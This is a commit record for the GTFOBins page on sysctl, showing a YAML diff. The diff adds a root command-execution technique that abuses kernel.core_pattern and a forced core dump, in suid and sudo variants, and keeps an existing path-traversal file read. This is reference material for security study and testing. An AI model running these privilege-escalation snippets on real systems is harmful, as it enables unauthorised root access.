

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/sysctl.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 978 px from its top, so only the background shows below that.

Commit message:
Update sysctl
Co-authored-by: Andrea Cardaci <cyrus.and@gmail.com>

```diff
--- a/_gtfobins/sysctl.md
+++ b/_gtfobins/sysctl.md
@@ -1,16 +1,30 @@
 ---
-description: The `-p` argument can also be used in place of `-n`. In both cases though the output might get corrupted, so this might not be suitable to read binary files.
 functions:
+  command:
+    - description: The command is executed by root in the background when a core dump occurs.
+      code: |
+        COMMAND='/bin/sh -c id>/tmp/id'
+        sysctl "kernel.core_pattern=|$COMMAND"
+        sleep 9999 &
+        kill -QUIT $!
+        cat /tmp/id
   file-read:
-    - code: |
+    - description: The `-p` argument can also be used in place of `-n`. In both cases though the output might get corrupted, so this might not be suitable to read binary files.
+      code: |
         LFILE=file_to_read
         /usr/sbin/sysctl -n "/../../$LFILE"
   suid:
     - code: |
-        LFILE=file_to_read
-        ./sysctl -n "/../../$LFILE"
+        COMMAND='/bin/sh -c id>/tmp/id'
+        ./sysctl "kernel.core_pattern=|$COMMAND"
+        sleep 9999 &
+        kill -QUIT $!
+        cat /tmp/id
   sudo:
     - code: |
-        LFILE=file_to_read
-        sudo sysctl -n "/../../$LFILE"
+        COMMAND='/bin/sh -c id>/tmp/id'
+        sudo sysctl "kernel.core_pattern=|$COMMAND"
+        sleep 9999 &
+        kill -QUIT $!
+        cat /tmp/id
 ---
```
